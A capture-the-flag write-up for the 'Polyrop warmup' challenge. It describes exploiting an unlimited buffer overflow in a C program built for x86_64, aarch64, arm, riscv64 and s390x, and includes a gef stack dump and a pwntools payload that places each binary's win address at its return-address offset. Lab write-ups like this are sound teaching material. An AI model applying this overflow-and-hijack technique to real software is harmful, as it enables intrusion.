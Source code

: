 # Polyrop warmup

- Category: rev
- Final point value: 274
- Number of solves: 13
- Solved by: `mouthon`

This challenge was about [Multi-Variant Execution](https://dl.acm.org/doi/abs/10.1145/3447852.3458714). There was a simple [C file](./composer.c), with an obvious unlimited buffer overflow in `add_composer`, which could be used to leak any address and hijack control flow. A `win` function prints out a token read from file descriptor 42.

The particulariy of this challenge is that this c file had been compiled for 5 different architectures: x86_64, aarch64, arm, riscv64 and s390x. I had never heard about s390x before, I have no idea where it comes from, and in my opinion all its opcode names looks like onomatopeia you would produce if you were being strangled. Anyway, a [python script](./composer.py) was responsible for dispatching your inputs to the five binaries, and to win you would need all five tokens, obtained by calling the `win` function on each binary. So, we would need a payload that triggers `win` for all the binaries.

I first tried to exploit each binary independently from each other, using `gdb-multiarch` and [gef](https://github.com/bata24/gef). It turned out you did not need to know how each of these architecture works: you just needed to feed some input, then use `tele` to get the content of the stack, where you could see your buffer, identify potential functions you could use for leaking the PIE, and the offset of the return address of `main`:
```
  $sp  0x7f3194f9e4c0|+0x0000|+000: 0x00007f3194f9e50f  ->  0x0000000000000a00  <-  $s1
       0x7f3194f9e4c8|+0x0008|+001: 0x0000000000000000
       0x7f3194f9e4d0|+0x0010|+002: 0x000055555555e370 <buf+0x8>  ->  0x4141414141414141 'AAAAAAAAAAAAAAAA\n'  <-  $a1, $a3
       0x7f3194f9e4d8|+0x0018|+003: 0x0000000000000400
       0x7f3194f9e4e0|+0x0020|+004: 0x000055555555e108 <__stdout_FILE>  ->  0x0000000000000045
       0x7f3194f9e4e8|+0x0028|+005: 0x00007f3194f9e538  ->  0x0000000000000000
       0x7f3194f9e4f0|+0x0030|+006: 0x000055555555e018 <__stdin_FILE>  ->  0x0000000000000009  <-  $fp
       0x7f3194f9e4f8|+0x0038|+007: 0x0000555555559526 <__uflow+0x1a>  ->  0x450300f518634785  <-  retaddr[1], $ra
       0x7f3194f9e500|+0x0040|+008: 0x000055555555e108 <__stdout_FILE>  ->  0x0000000000000045
       0x7f3194f9e508|+0x0048|+009: 0x00007f3194f9e538  ->  0x0000000000000000
       0x7f3194f9e510|+0x0050|+010: 0x000000000000000a
       0x7f3194f9e518|+0x0058|+011: 0x00005555555569f0 <main+0xc2>  ->  0x4505fb9514e38b2a  <-  retaddr[2]
       0x7f3194f9e520|+0x0060|+012: 0x0000000000000000
       0x7f3194f9e528|+0x0068|+013: 0x4141414141414141 'AAAAAAAAAAAAAAAA'
       0x7f3194f9e530|+0x0070|+014: 0x4141414141414141 'AAAAAAAA'
       0x7f3194f9e538|+0x0078|+015: 0x0000000000000000
       0x7f3194f9e540|+0x0080|+016: 0x0000000000000000
       0x7f3194f9e548|+0x0088|+017: 0x0000000000000000
       0x7f3194f9e550|+0x0090|+018: 0x0000000000000000
       0x7f3194f9e558|+0x0098|+019: 0x0000000000000000
       0x7f3194f9e560|+0x00a0|+020: 0x0000000000000000
       0x7f3194f9e568|+0x00a8|+021: 0x0000000000000000
       0x7f3194f9e570|+0x00b0|+022: 0x0000000000000000
       0x7f3194f9e578|+0x00b8|+023: 0x000055555555692e <main>  ->  0xf4a6f8a2fc867119
       0x7f3194f9e580|+0x00c0|+024: 0x00007f3194f9e5d8  ->  0x00007f3194f9ea1e  ->  0x7265736f706d6f63 'composer-riscv64'
       0x7f3194f9e588|+0x00c8|+025: 0x0000000000000001
       0x7f3194f9e590|+0x00d0|+026: 0x00007f3194f9e5e8  ->  0x00007f3194f9ea2f  ->  0x622f3d4c4c454853 'SHELL=/bin/zsh'
       0x7f3194f9e598|+0x00d8|+027: 0x0000555555556bce <libc_start_main_stage2+0x26>  ->  0xe8221101a9bff0ef
       0x7f3194f9e5a0|+0x00e0|+028: 0x00007f3194f9e5d8  ->  0x00007f3194f9ea1e  ->  0x7265736f706d6f63 'composer-riscv64'
```

It turned out that ASLR really existed only with aarch64, but we leaked it with all the architectures just in case. We then only had to make a payload where the address of `win` was at the right offset for every architecture (and there were hopefully no overlap), and pay attention to the fact that ARM's adresses are only 4 bytes long, x86_64 must keep a 0x10 aligned stack, and s390x is big-endian. The final payload looks like this:
```python
    payload = b""
    payload += 0x28*b"A"
    payload += p64(vulns[AARCH64].symbols["win"]) #0x30
    payload += 8*b"F"
    payload += 4*b"E" + p32(vulns[ARM].symbols["win"])
    payload += 0x18*b"D" #0x58
    payload += p64(vulns[X86_64].address + X86_64_RET)
    payload += p64(vulns[X86_64].symbols["win"])
    payload += 8*b"B" #0x70
    payload += p64(vulns[RISCV64].symbols["win"])
    payload += 0x18*b"C"
    payload += p64(vulns[S390X].symbols["win"], endian="big")
```

The full exploit can be found [here](./exploit.py)